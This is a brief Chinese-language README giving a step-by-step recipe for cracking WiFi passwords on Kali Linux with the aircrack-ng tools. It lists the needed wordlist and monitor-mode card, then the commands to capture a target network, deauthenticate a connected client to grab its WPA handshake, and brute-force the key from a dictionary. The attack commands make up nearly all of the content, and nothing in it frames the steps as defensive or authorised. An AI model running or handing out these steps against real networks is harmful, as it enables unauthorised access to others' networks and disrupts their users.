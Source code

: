 # Wifi密碼破解實戰-Kali Linux

## 事前準備
- 密碼字典
- 支持監聽模式的網卡

# 所需指令
```js
airmon-ng
airmon-ng start wlanX
airodump-ng wlanX
airodump-ng -c 11 –bssid tar:get:ss:id:he:re -w /home/user/desktop/ wlanX
aireplay-ng -0 10 -a tar:get:ss:id:he:re -c dev:ice:ss:id:he:re wlanX
aircrack-ng -w /home/user/密碼字典.txt -b ar:get:ss:id:he:re /home/user/desktop/handshake-0*.cap
```
資料來源：https://www.freedidi.com/2507.html
